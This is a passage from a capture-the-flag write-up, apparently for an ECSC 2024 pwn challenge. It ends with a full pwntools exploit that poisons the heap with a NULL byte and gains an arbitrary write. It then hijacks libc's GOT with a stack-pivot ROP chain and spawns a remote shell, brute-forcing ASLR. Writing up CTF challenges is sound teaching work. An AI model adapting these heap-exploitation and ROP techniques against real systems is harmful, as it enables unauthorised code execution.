and `.got.plt+16`, spray the `GOT` with the special gadget from the `.plt`
section and write a **ROP chain** to the address where I will stack pivot.

```python
# Reclaim extra chunks that are in unsorted bins list
add(0x418, b"FILLING", b"META_FILLING")         # idx: 1

# ROP chain on GOT@libc
# Overwrite page->data pointer to get arbitrary write
payload = b"+" * 0x438
payload += p64(0x421)                           # size for page chunk
payload += p64(0xdead)                          # page->size
payload += p64(libc.address + GOT_OFF)          # page->data
add(0x500, payload, b"META_OVERWRITE")          # idx: 6
# Vuln now points to GOT@libc
payload = p64(0)
payload += p64(libc.address + GOT_OFF + 0x100)  # Address of our ROP chain
payload += p64(libc.address + POP_RSP)          # Stack pivot first gadget
payload += p64(libc.address + PLT0) * 0x1d      # Fill GOT with magic gadget
# ROP chain starts here
payload += p64(libc.address + POP_RDI)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.address + POP_RSI)
payload += p64(0)
payload += p64(libc.address + POP_RDX_POP_RBX)
payload += p64(0) * 2
payload += p64(libc.address + POP_RAX)
payload += p64(0x3b)                            # Execve syscall
payload += p64(libc.address + SYSCALL)
edit(4, payload)
```

To finalize the exploit, as I mentioned in the creation of the fake chunk phase,
we need to adjust the exploit to bruteforce 4 bits of `ASLR`, but that is pretty
easy. The final exploit looks something like this:

## Exploit

```python
#!/bin/env python3

from pwn import *

#
# INIT
#
libc = ELF("./glibc/libc.so.6", False) # Using libc to retrieve offsets

#
# UTILS
#
GOT_OFF = libc.dynamic_value_by_tag("DT_PLTGOT")
PLT0 = libc.get_section_by_name(".plt").header.sh_addr
POP_RSP = 0x001bb53b            # pop rsp; ret;
POP_RAX = 0x001284f0            # pop rax; ret;
POP_RDI = 0x001bc021            # pop rdi; ret;
POP_RSI = 0x001bb317            # pop rsi; ret;
POP_RDX_POP_RBX = 0x00175548    # pop rdx; pop rbx; ret;
SYSCALL = 0x00177e81            # syscall;

#
# FUNCTIONS
#
def add(size, data = b"*"*0x10, title = b"T"*0x10):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"Size: ", str(size).encode())
    io.sendafter(b"Title: ", title)
    io.sendafter(b"Data: ", data)

def edit(idx, data):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"Index: ", str(idx).encode())
    io.sendafter(b"Data: ", data)

def delete(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"Index: ", str(idx).encode())

def merge(idx1, idx2):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"index: ", str(idx1).encode())
    io.sendlineafter(b"index: ", str(idx2).encode())

def consolidate():
    payload = b"0" * 0x1000 + b"9"
    io.sendlineafter(b"> ", payload)

#
# EXPLOIT
#
def main(HOST, PORT):
    global io

    context.log_level = "WARNING"
    while True:
        io = remote(HOST, PORT)

        # Get libc leak
        io.sendlineafter(b"> ", b"+")
        io.recvuntil(b"choice: ")
        libc.address = int(io.recvline().strip()) - 0x80057

        #
        # HEAP FENG-SHUI
        #

        # Add chunks to prepare metadata space (idx: 0, 1, 2)
        for i in range(3):
            add(0x418, f"CHUNK{i}".encode(), f"META_CHUNK{i}".encode())

        delete(0)
        add(0x428, b"EXTRA_BARRIER", b"META_EXTRA_BARRIER") # idx: 0
        add(0x448, b"FAKE", b"META_FAKE")                   # idx: 3

        # Vuln chunk, it will trigger the NULL poison
        # and provide the target metadata for arbitrary write
        add(0x428, b"V"*0x228, b"META_VULN")                # idx: 4

        # Create space for metadata chunks
        delete(1)
        # Allocate victim (victim must have size >= 0x500 to not go in tcache)
        add(0x4f8, b"VICTIM", b"META_VICTIM")               # idx: 1

        # Allocate chunk A
        add(0x438, b"A"*0x10, b"META_CHUNK_A")              # idx: 5
        # Creating more space
        delete(2)
        # Allocate barrier
        add(0x428, b"BARRIER_1", b"META_BARRIER_1")         # idx: 2
        # Allocate chunk B and barrier
        add(0x458, b"B"*0x10, b"META_CHUNK_B")              # idx: 6
        add(0x428, b"BARRIER_2", b"META_BARRIER_2")         # idx: 7

        #
        # NULL poisoning
        #

        # Free A, B and FAKE
        delete(5)
        delete(6)
        delete(3)

        # Consolidation
        consolidate()

        # Reclaim FAKE CHUNK which now have valid pointers to bypass unlink
        payload = p64(0) + p64(0xc91)               # Fake size 0xc80 (0x450 - 0x10 + 0x420 * 2)
        add(0x448, payload, b"META_FAKE")           # idx: 3

        # Reclaim CHUNK B and manipulate fd pointer to fake chunk
        payload = p16(0xcf90)
        add(0x458, payload, b"META_CHUNK_B")        # idx: 5

        # Reclaim CHUNK A
        add(0x438, b"A"*0x10, b"META_CHUNK_A")      # idx: 6
        # Free extra barrier so that it will be chunk A bk ptr
        delete(0)
        # Free CHUNK A to have a heap pointer in mchunk->bk
        delete(6)

        # Reclaim CHUNK A and manipulate bk pointer to point to fake chunk
        payload = p64(0) + p16(0xcf90)
        add(0x438, payload, b"META_CHUNK_A")        # idx: 0

        # Now we have a layout which is suitable to bypass every check

        # Reclaim extra barrier chunk with data to be merged
        add(0x428, b"V"*0x200, b"META_MERGE")       # idx: 6
        # Merge it with vuln to trigger the NULL poisoning
        merge(4, 6)

        # Set prev_size on victim
        payload = b"VULN".ljust(0x420, b"\0")
        payload += p64(0xc90)                       # Fake size
        edit(4, payload)

        # Free victim to obtain a overlapping chunk
        delete(1)
        try:
            res = io.recvline()
            if b"corrupt" in res:
                io.close()
                continue
            break
        except:
            io.close()

    context.log_level = "INFO"
    success(f"libc base @ {hex(libc.address)}")
    success("Unlinking was successful, executing shell...")

    # gdb.attach(io, gs)
    # Reclaim extra chunks that are in unsorted bins list
    add(0x418, b"FILLING", b"META_FILLING")         # idx: 1

    # ROP chain on GOT@libc
    # Overwrite page->data pointer to get arbitrary write
    payload = b"+" * 0x438
    payload += p64(0x421)                           # size for page chunk
    payload += p64(0xdead)                          # page->size
    payload += p64(libc.address + GOT_OFF)          # page->data
    add(0x500, payload, b"META_OVERWRITE")          # idx: 6
    # Vuln now points to GOT@libc
    payload = p64(0)
    payload += p64(libc.address + GOT_OFF + 0x100)  # Address of our ROP chain
    payload += p64(libc.address + POP_RSP)          # Stack pivot first gadget
    payload += p64(libc.address + PLT0) * 0x1d      # Fill GOT with magic gadget
    # ROP chain starts here
    payload += p64(libc.address + POP_RDI)
    payload += p64(libc.search(b"/bin/sh").__next__())
    payload += p64(libc.address + POP_RSI)
    payload += p64(0)
    payload += p64(libc.address + POP_RDX_POP_RBX)
    payload += p64(0) * 2
    payload += p64(libc.address + POP_RAX)
    payload += p64(0x3b)                            # Execve syscall
    payload += p64(libc.address + SYSCALL)
    edit(4, payload)

    io.interactive()


if __name__ == "__main__":
    main("blindwriter.challs.open.ecsc2024.it", "38003")
```



And that's it! We now have a shell, enjoy! 🥳
